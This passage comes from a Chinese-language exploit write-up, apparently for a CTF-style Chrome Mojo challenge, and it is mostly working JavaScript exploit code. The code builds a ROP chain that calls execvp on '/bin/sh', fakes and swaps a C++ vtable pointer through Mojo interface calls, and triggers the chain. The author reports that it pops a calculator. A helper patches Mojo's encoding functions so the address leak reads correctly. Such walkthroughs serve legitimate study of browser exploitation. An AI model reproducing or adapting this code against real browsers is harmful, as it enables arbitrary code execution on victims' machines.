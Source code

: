 最后构造`ROP`，伪造虚表指针，触发虚表函数。`ROP`这里的构造可以提一句的是，可以利用`execvp`函数来最终执行可执行程序，这样就不需要构造`rsi`以及`rdx`寄存器来，可以用命令`objdump -d -j '.plt' ./src/binary/chrome | grep execvp`来查看偏移。

```js
 // build rop chain
    let binshAddr = leakHeapAddr+0x68n;
    let ropBuffer = new ArrayBuffer(ropBufferSize);
    let ropData8 = new Uint8Array(ropBuffer).fill(0x41);
    ropDataView = new DataView(ropBuffer);

    // person getName's offset in vtable is 0x10;
    ropDataView.setBigInt64(0x10,xchgRaxRsp,true);

    ropDataView.setBigInt64(0x0, popRsi, true);
    ropDataView.setBigInt64(0x8, popRsi, true);

    ropDataView.setBigInt64(0x18, popRdi, true);
    ropDataView.setBigInt64(0x20, binshAddr, true);
    ropDataView.setBigInt64(0x28, popRsi, true);
    ropDataView.setBigInt64(0x30, 0n, true);
    ropDataView.setBigInt64(0x38, 0n, true);
    ropDataView.setBigInt64(0x40, popRdx, true);
    ropDataView.setBigInt64(0x48, 0n, true);
    ropDataView.setBigInt64(0x50, popRdx, true);
    ropDataView.setBigInt64(0x58, 0n, true);
    ropDataView.setBigInt64(0x60, execvp, true);
    ropDataView.setBigInt64(0x68,0x68732f6e69622fn,true);  // /bin/sh
    // ropDataView.setBigInt64(0x68, 0x6f6e672f6e69622fn,true);  // /bin/gno
    // ropDataView.setBigInt64(0x70, 0x75636c61632d656dn,true);  // me-calcu
    // ropDataView.setBigInt64(0x78, 0x726f74616cn,true);  // lator\x00

    let ropStr = arr2Str(ropData8);

    // set fake vtable here
    await triggerPersonPtr.setName(ropStr);

    // change triggerPersonPtr's vtable to fake vtable address
    evilData = setUint64(leakData, 0, leakHeapAddr);
    await evil.setName(evilData);

    //  trigger rop
    console.log((await triggerPersonPtr.getName()).name);
```

成功弹出计算器。

![poc.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-cbd7d0cfb0e980595b6330928af5e62a8a5d1a4b.png)

要提一点的是在泄露虚表的时候，可能是因为`mojo`的编码问题，直接读出来的地址不对，需要对数据进行编码，加上下面的代码就可以了，原因我现在还搞不懂，先放着。

```js
mojo.internal.Buffer.prototype.setUint64 = function(offset, value) {
    value = BigInt(value);
    let multipliter = 0x100000000n;
    var hi = Number(value / multipliter);
    var low = Number(value % multipliter);
    this.dataView.setInt32(offset, low, true);
    this.dataView.setInt32(offset + 4, hi, true);
    return;
};

mojo.internal.encodeUtf8String = function(str, outputBuffer) {
    const utf8Buffer = str.split('').map(char => char.charCodeAt(0));
    if (outputBuffer.length < utf8Buffer.length)
        throw new Error("Buffer too small for encodeUtf8String");
    outputBuffer.set(utf8Buffer);
```